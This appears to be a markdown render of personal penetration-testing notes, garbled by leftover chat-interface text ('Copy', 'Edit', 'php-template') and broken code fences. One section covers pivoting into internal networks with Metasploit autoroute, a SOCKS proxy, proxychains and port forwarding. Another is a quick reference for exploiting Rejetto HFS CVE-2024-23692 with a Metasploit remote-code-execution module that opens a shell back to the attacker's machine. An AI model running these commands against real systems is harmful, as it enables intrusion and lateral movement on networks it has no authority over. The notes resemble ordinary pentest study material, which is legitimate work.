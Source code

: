 
**`pentesting-notes/02-Network/04-pivoting.md`**

```md

# Pivoting & Tunnelling

meterpreter > run autoroute -s <INTERNAL/CIDR>
msf6 > use auxiliary/server/socks_proxy
set SRVPORT 9050
run

php-template

Copy
Edit
```bash
proxychains -q nmap -Pn -sT -p80 <INTERNAL_HOST>
curl -v http://127.0.0.1:<LOCAL_PORT>/ -H 'Host: <INTERNAL_FQDN>'
php-template

Copy
Edit
meterpreter > portfwd add -l <LOCAL_PORT> -p 80 -r <INTERNAL_HOST>
go

Copy
Edit

**`pentesting-notes/03-Web/01-rejetto_hfs_cve-2024-23692.md`**

```md

# Rejetto HFS — CVE-2024-23692 (quick ref)

use windows/http/rejetto_hfs_rce_cve_2024_23692
set RHOSTS <TARGET>
set LHOST <KALI_IP>
set LPORT <LPORT>
run
